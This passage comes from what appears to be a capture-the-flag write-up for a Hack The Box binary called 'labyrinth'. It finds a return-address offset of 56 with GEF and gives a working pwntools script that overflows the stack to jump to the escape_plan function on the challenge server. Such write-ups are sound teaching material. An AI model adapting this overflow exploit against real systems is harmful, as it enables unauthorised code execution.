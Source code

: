 Then I run the program and enter `69` to pass the first door, then enter the pattern and the program stops at our breakpoint. At the top of the stack we see the 8 bytes that are going to be loaded into `rip` when the return instruction is executed.

```bash
0x007fffffffe498│+0x0000: "haaaaaaaiaa"	 ← $rsp
```

We use GEF to find the offset:

```bash
gef➤  pattern search haaaaaaaiaa
[+] Searching for 'haaaaaaaiaa'
[+] Found at offset 56 (big-endian search)
```

The offset is `56`. Now we can write an exploit to point the return to the address of `escape_plan`

```python
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64', terminal=['alacritty', '-e', 'sh', '-c'])

exe_file = './labyrinth'

host = '165.232.108.240'
port = 30297

binary = ELF(exe_file, checksec=False)

def start(argv=[]):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe_file] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe_file] + argv)


# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
'''

# ===========================================================
#                     EXPLOIT GOES HERE
# ===========================================================

p = start()

p.sendlineafter(b'>>', b'69')
p.sendlineafter(b'>>', (b'A' * 56) + p64(binary.sym.escape_plan + 1))
success('Flag: ' + p.recvline_contains(b'HTB{').decode())
```
